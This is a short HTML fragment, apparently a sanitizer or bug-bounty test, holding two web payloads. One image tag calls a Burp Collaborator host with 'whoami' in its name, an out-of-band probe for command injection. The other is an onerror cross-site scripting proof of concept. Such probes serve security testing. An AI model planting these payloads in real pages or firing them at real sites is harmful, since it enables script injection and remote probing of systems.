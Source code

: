 <img src="http://'whoami'.ucayd0dkf7w9x7wi9iujh4hzlqrgf5.burpcollaborator.net"></img>
<img style="max-width: 100%;" src="x" onerror="print(1)">
